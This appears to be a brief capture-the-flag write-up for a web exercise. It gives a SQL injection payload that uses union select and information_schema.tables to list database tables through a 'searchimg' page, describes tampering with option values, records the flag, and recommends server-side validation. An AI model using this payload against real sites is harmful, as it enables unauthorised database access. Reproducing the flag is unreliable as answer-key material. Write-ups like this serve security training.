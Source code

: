 # Where: <br>
    /?page=searchimg
# How:
-By entering
-1 union _select_ null, concat (table_name) from information_schema.tables where table_schema = database ()
-Change the value of 1 of the options to an invalid value.
Or
-Add an invalid option.
-Select the invalid value
-Receive the flag
# Flag:
03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA
# Fix:
Store options server side/on backend.All user input should be sanitised and validated (backend).